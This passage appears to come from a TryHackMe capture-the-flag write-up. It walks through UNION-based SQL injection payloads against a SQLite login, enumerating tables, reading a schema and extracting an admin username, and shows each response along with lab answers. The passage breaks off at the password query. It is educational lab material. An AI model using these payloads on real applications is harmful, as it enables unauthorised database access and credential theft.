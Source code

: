 ```sql
' Union Select name FROM sqlite_master WHERE type = 'table' OR '=
```

_**Response 3.1:**_ `Password: admintable`

* It appears that this method works
* We have discovered that there exists a table with the name `admintable`



_**Query 3.2**_

```sql
' Union Select * from admintable '=
```

_**Response 3.2:**_&#x20;

`Error: SELECTs to the left and right of UNION do not have the same number of result columns`

* This response tells us that the admintable table have more than one column
* Thus, it causes a number of result columns mismatch from the original query (first part of the query before the `UNION` keyword)

> Note that the original query only returns one column

_**Query 3.3**_

We need a method to view the exact schema of the table, before selecting a single column to read the value directly&#x20;

```sql
' Union Select sql FROM sqlite_master WHERE name='admintable' OR '=
```

_**Response**_ _**3.3**_:

`Password: CREATE TABLE admintable (`\
&#x20; `id INTEGER PRIMARY KEY,`\
&#x20; `username TEXT,`\
&#x20; `password INTEGER)`



_**Query 3.4 (Answer to qn 1)**_

Now, with the information retrieved from the previous response, I can select a column value to read. In this case, it will be the `username` column.

```sql
' Union Select username FROM admintable  '
```

_**Response**_ _**3.4**_:

`Password: TryHackMeAdmin`

To answer question 1 "_What is the admin username?_": `TryHackMeAdmin`



_**Query 3.5 (Answer to qn 2)**_

Now that we know the admin username, we can find the password with the following query:
